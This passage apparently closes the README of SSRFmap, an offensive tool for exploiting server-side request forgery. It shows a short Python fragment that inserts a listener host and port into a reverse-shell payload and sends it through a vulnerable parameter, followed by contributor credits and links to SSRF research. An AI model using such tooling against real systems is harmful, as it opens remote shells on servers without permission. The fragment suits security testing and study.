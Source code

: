 ```python

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.

### Thanks to the contributors

<p align="center">
<a href="https://github.com/swisskyrepo/SSRFmap/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=swisskyrepo/SSRFmap&max=36">
</a>
</p>


## Inspired by

- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
